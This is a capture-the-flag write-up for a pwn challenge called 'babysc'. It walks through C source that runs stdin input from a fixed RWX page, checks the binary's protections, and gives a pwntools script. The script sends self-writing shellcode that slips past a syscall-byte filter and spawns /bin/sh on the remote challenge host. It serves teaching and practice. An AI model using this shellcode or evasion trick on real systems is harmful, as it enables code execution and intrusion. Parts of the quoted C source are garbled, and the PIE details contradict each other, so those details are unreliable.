 # babysc (Pwn) – 370

> shellcode
> 

> 34.133.69.112 port 10001
> 
- `babysc.c` – C source implementing the `mmap` + `read` + indirect call logic
- `babysc` – Compiled 64‑bit ELF (no PIE, NX disabled, no canary)
- `Dockerfile` – Ubuntu 22.04 image using `socat` to expose the service as non‑privileged `pwnuser`

# Summary
*In this challenge, you must craft shellcode to spawn a shell (via `execve("/bin/sh")`), inject it into the known RWX region at `0x26e45000`, and then read the flag.*

# Solution

### Examining the Request

1. **Review the C source**
    
    ```bash
    cat babysc.c
    ```
    
    ```c
    #include <stdlib.h>
    #include <stdint.h>
    #include <stdbool.h>
    #include <stdio.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <string.h>
    #include <time.h>
    #include <errno.h>
    #include <assert.h>
    #include <libgen.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <sys/socket.h>
    #include <sys/wait.h>
    #include <sys/signal.h>
    #include <sys/mman.h>
    #include <sys/ioctl.h>
    #include <sys/sendfile.h>
    #include <sys/prctl.h>
    #include <sys/personality.h>
    #include <arpa/inet.h>
    
    void shellcode;
    size_t shellcode_size;
    
    void vuln(){
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
    
        shellcode = mmap((void)0x26e45000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
    
        puts("Enter 0x1000");
        shellcode_size = read(0, shellcode, 0x1000);
        for (int i = 0; i < shellcode_size; i++)
        {
            uint16_t scw = (uint16_t)((uint8_t )shellcode + i);
            if (scw == 0x80cd  *scw == 0x340f  scw == 0x050f)
            {
                printf("Bad Byte at %d!\n", i);
                exit(1);
            }
        }
       puts("Executing shellcode!\n");
        ((void()())shellcode)();
    }
    
    int main(){
    
        vuln();
    
        return 0;
    
    }
    ```
    
    > Maps a fixed RWX page at 0x26e45000, reads up to 0x1000 bytes from stdin into it, then jumps to that address.
    >
2. **Check the binary and protections**
    
    ```bash
    file babysc
    ```
    
    ```bash
    babysc: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=17c5713f0659b856ebda5cbc602cb5e28ce9249c, for GNU/Linux 3.2.0, not stripped
    ```
    
    > PIE-enabled, 64-bit ELF, dynamically linked, not stripped — but since execution happens in a fixed mmap region, PIE is not a barrier to exploitation.
    > 
    
    ```bash
    checksec --file=./babysc
    ```
    
    ```
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    Symbols        FORTIFY    Fortified    Fortifiable    FILE
    Full RELRO      No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   46 Symbols     No    0        2        ./babysc
    ```
    
    > **PIE enabled**, **NX disabled**, **no stack canary**, **Full RELRO** — protections are minimal where it matters; execution still occurs in a **fixed RWX mmap**, making shellcode injection fully viable.
    > 
3. **Inspect the service setup**
    
    ```bash
    cat Dockerfile
    ```
    
    ```
    FROM ubuntu:22.04
    RUN apt-get update && apt-get install -y socat
    RUN useradd -m pwnuser
    WORKDIR /home/pwnuser
    COPY ./babysc /home/pwnuser/babysc
    COPY ./flag /flag
    EXPOSE 10001
    USER pwnuser
    CMD ["socat","TCP-LISTEN:10001,reuseaddr,fork","EXEC:/home/pwnuser/babysc"]
    
    ```
    
    > The flag lives at /flag; each connection runs babysc under pwnuser.
    > 

### Disassembly & GDB Analysis

```bash
gdb -q babysc
```

```
# set up
break main
run

# inspect mapped regions
vmmap
```

> Confirms 0x26e45000–0x26e46000 is RWX.
> 

```
# disassemble vuln()
disass vuln
```

Key snippet:

```
   0x...5247    mov esi,0x1000
   0x...524c    mov edi,0x26e45000
   0x...5251    call mmap@plt
   ...
   0x...5278    mov rsi,rax
   0x...527b    mov edi,0x0
   0x...5280    call read@plt
   ...
   0x...5317    mov rax, QWORD PTR [rip+...shellcode]
   0x...5321    mov eax,0x0
   0x...5326    call rdx          ; jump into our shellcode
```

> The loop before call rdx simply prints offsets of any detected syscall stub but does not prevent execution.
> 

### Crafting and Sending the Payload
We use **pwntools** to build a **self‑writing** syscall stub:

```python
from pwn import *

context.arch = 'amd64'

BASE   = 0x26e45000      # mmap base
STUB   = BASE + 0x100    # where we'll write the two-byte syscall
BINSH  = BASE + 0x200    # where "/bin/sh" will live

# 1) Build the stub + execve("/bin/sh")
code = asm(f'''
    xor    rsi, rsi
    xor    rdx, rdx
    mov    rdi, {BINSH}
    mov    rbx, {STUB}
    mov    byte ptr [rbx], 0x0f
    mov    byte ptr [rbx+1], 0x05
    mov    eax, 59
    jmp    rbx
''')

# 2) Pad to embed "/bin/sh"
payload  = code
payload += b'\\x90' * (0x200 - len(code))
payload += b"/bin/sh\\x00"

# 3) Send to remote and spawn shell
p = remote("34.133.69.112", 10001)
p.send(payload)
p.interactive()
```

> This payload zeroes out RSI/RDX, points RDI at our "/bin/sh" string, writes the two‑byte syscall opcode at runtime to avoid any static detection, sets EAX=59, then jumps to perform the syscall.
> 

![image1](https://github.com/user-attachments/assets/7d25ccf1-d453-400f-84a8-67087e10b947)

![image2](https://github.com/user-attachments/assets/4b850778-3d33-4a81-bb1c-36c179e4dcdf)

```
**Flag** : umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}
```

# Conclusion
By thoroughly reviewing `babysc.c`, checking protections with `file`/`checksec`, and disassembling in GDB (with `vmmap` and `disass`), we confirmed a fixed RWX mapping with minimal defenses. Crafting a concise self‑writing syscall stub with pwntools allowed us to reliably invoke `execve("/bin/sh")`, spawn a shell, and read the flag. This pattern—mapping executable memory, injecting shellcode, and transferring control—is a cornerstone of binary exploitation in CTFs.
